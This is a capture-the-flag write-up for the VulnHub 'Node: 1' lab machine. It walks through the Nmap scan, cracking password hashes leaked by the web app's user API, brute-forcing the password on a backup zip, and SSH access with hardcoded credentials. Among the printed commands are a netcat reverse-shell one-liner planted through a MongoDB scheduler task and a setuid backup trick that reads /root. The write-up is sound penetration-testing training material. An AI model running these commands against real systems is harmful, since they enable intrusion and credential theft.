



# [[VulnHub] Node: 1](https://www.vulnhub.com/entry/node-1,252/)

**Date**: 28/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [exploit_nodejs](https://github.com/7h3rAm/writeups/search?q=exploit_nodejs&unscoped_q=exploit_nodejs), [exploit_credsreuse](https://github.com/7h3rAm/writeups/search?q=exploit_credsreuse&unscoped_q=exploit_credsreuse), [exploit_mongodb](https://github.com/7h3rAm/writeups/search?q=exploit_mongodb&unscoped_q=exploit_mongodb), [privesc_setuid](https://github.com/7h3rAm/writeups/search?q=privesc_setuid&unscoped_q=privesc_setuid)  

## Overview
This is a writeup for VulnHub VM [Node: 1](https://www.vulnhub.com/entry/node-1,252/#). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


### Killchain



### TTPs
1\. `3000/tcp/http/Node.js Express framework`: [exploit_nodejs](https://github.com/7h3rAm/writeups#exploit_nodejs), [exploit_credsreuse](https://github.com/7h3rAm/writeups#exploit_credsreuse), [exploit_mongodb](https://github.com/7h3rAm/writeups#exploit_mongodb), [privesc_setuid](https://github.com/7h3rAm/writeups#privesc_setuid)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Tue Oct 22 14:20:26 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.node1/results/192.168.92.189/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.node1/results/192.168.92.189/scans/xml/_quick_tcp_nmap.xml 192.168.92.189
Nmap scan report for 192.168.92.189
Host is up, received arp-response (0.00084s latency).
Scanned at 2019-10-22 14:20:28 PDT for 21s
Not shown: 998 filtered ports
Reason: 998 no-responses
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwesV+Yg8+5O97ZnNFclkSnRTeyVnj6XokDNKjhB3+8R2I+r78qJmEgVr/SLJ44XjDzzlm0VGUqTmMP2KxANfISZWjv79Ljho3801fY4nbA43492r+6/VXeer0qhhTM4KhSPod5IxllSU6ZSqAV+O0ccf6FBxgEtiiWnE+ThrRiEjLYnZyyWUgi4pE/WPvaJDWtyfVQIrZohayy+pD7AzkLTrsvWzJVA8Vvf+Ysa0ElHfp3lRnw28WacWSaOyV0bsPdTgiiOwmoN8f9aKe5q7Pg4ZikkxNlqNG1EnuBThgMQbrx72kMHfRYvdwAqxOPbRjV96B2SWNWpxMEVL5tYGb
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKQ4w0iqXrfz0H+KQEu5D6zKCfc6IOH2GRBKKkKOnP/0CrH2I4stmM1C2sGvPLSurZtohhC+l0OSjKaZTxPu4sU=
|   256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5cgCL/RuiM/AqWOqKOIL1uuLLjN9E5vDSBVDqIYU6y
3000/tcp open  http    syn-ack ttl 64 Node.js Express framework
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-favicon: Unknown favicon MD5: 30F2CC86275A96B522F9818576EC65CF
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: MyPlace
MAC Address: 00:0C:29:FE:C0:B6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 22 14:20:49 2019 -- 1 IP address (1 host up) scanned in 23.99 seconds

```

2\. We explore the `3000/tcp` service and find a Node.js webapp. Upon exploring the source we come across few REST API calls of which the `http://192.168.92.189:3000/api/users/` call is very important as it lists regsitered usernames and password hashes. We use online tools to detect hash type as SHA256 and find plaintext strings for three users:  
``` {.python .numberLines}
username: myP14ceAdm1nAcc0uNT
hash: dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af
plaintext: manchester

username: tom
hash: f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240
plaintext: spongebob

username: mark
hash: de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73
plaintext: snowflake

```

  

  

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp    |  ssh   |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
3000/tcp  |  http  |  Node.js Express framework
```
#### Files
``` {.python .numberLines}
http://192.168.92.189:3000/assets/js/app/controllers/home.js
http://192.168.92.189:3000/api/users/latest
http://192.168.92.189:3000/api/users/
```
#### Users
``` {.python .numberLines}
ssh: mark
webapp: tom, mark, rastating
```

\newpage
## Phase #2: Exploitation
1\. We authenticate as user `myP14ceAdm1nAcc0uNT` as from the username it seems to be an administrative account. Upon successful login, we get a page to download backup. We proceed and get a plaintext file named `myplace.backup`. This file has text that looks to be Base64 encoded. Once decoded, we get a zip archive which is password encrypted. We bruteforce the password for the archive and sucessfully extract its contents:  
``` {.python .numberLines}
file myplace.backup
b64d $(cat myplace.backup) >unknown
frackzip -uDP /usr/share/wordlists/rockyou.txt unknown
unzip -o -P "magicword" unknown

```

  

  

  

  

2\. Within the extracted the zip archive we get a backup of the `/var` directory on the target system. This directory has source for the Node.js web application running on `3000/tcp`. Within the source, we find hardcoded MongoDB credentials for user `mark`. We try those credentials to login via SSH and get local access:  
``` {.python .numberLines}
head var/www/myplace/app.js
  mark:5AYRft73VtFpc84k
ssh mark@192.168.92.189

```

  

  

3\. We find that the there is a `user.txt` file within `/home/tom/` directory and as user `mark` we don't have access to that file. We need to switch to user `tom` to proceed further:  
``` {.python .numberLines}
ls /home/*
cat /home/tom/user.txt

```

  

  

4\. We find that we can run arbitrary commands from within the MongoDB instance using its `scheduler` record for which we already found credentials via `app.js` file from the backup archive. Since the MongoDB instance is running as user `tom`, we spawn a Bash reverse shell to switch users:  
``` {.python .numberLines}
nc -nlvp 443
mongo -p -u mark scheduler
  db.tasks.insert({"cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.92.179 443 >/tmp/f"})
  bye
cat /home/tom/user.txt

```

  

  

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
mark@node> id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
mark@node>  
mark@node> uname
Linux node 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
mark@node>  
mark@node> ifconfig
ens33 Link encap:Ethernet  HWaddr 00:0c:29:fe:c0:b6
      inet addr:192.168.92.189  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fefe:c0b6/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:170069 errors:0 dropped:0 overruns:0 frame:0
      TX packets:40914 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:20195705 (20.1 MB)  TX bytes:56570710 (56.5 MB)
mark@node>  
mark@node> users
root
tom
mark
```

\newpage
## Phase #3: Privilege Escalation
1\. We find an interesting `setuid` file `/usr/local/bin/backup`. This file is also referenced within the `app.js` file and we get a hint at how to execute it. We need a backup key which is also conviniently present in the `app.js` file. Alongwith this, we need to pass a filepath to backup as the third argument. We try to backup the `/root` directory but get a troll face instead. We then symlink the dircetory and successfully obtain the backup:  
``` {.python .numberLines}
find / -type f -perm -04000 2>/dev/null
/usr/local/bin/backup -q '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474' /root
/usr/local/bin/backup -q '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474' /tmp/test/

```

  

  

  

  

  

2\. Upon following the usual steps and extracting the contents of the password encrypted zip archive, we get access to the `/root` directory and obtain the `root.txt` file to complete the challenge:  
``` {.python .numberLines}
b64d $(cat backup-root) >backup-root.zip
unzip -o -P "magicword" backup-root.zip
cat tmp/test/root/root.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$n.BA4A59$WeIF0ZbaB3VGgAxUZqGHnw01.GhL9oVYYFioh07RpPtBl49YdMahhtbYhxUjanXf/NJXiCHBvrNhdC53P........................
tom:$6$ptD/.gN.$n.B/5dODEQFteBwg75Ip9leeaaXSMesGbfZzoVHpZihMHfbWu45UpVZTc6razK1JLZ6817ckZhAJF776Dg.......................
mark:$6$J3gYK/cQ$au1WmOCtq.X1DTKt1CEmKA9qr4PfwZuAGUdCfAV.SSU5VxAtjW/Xk1/oWJtQVaoXMEVXmeBIB6bq24Jpc........................
```
### Credentials
``` {.python .numberLines}
ssh: mark/5AYRft73VtFp....
webapp: myP14ceAdm1nAcc0uNT/manc......, tom/sponge..., mark/snowfl...
```
### Flags
``` {.python .numberLines}
user.txt: e1156acc3574e04b06908ecf........
root.txt: 1722e99ca5f353b362556a62........
```

## References
[+] <https://www.vulnhub.com/entry/node-1,252/>  
[+] <https://hkh4cks.com/blog/2018/06/15/htb-node-walkthrough/>  
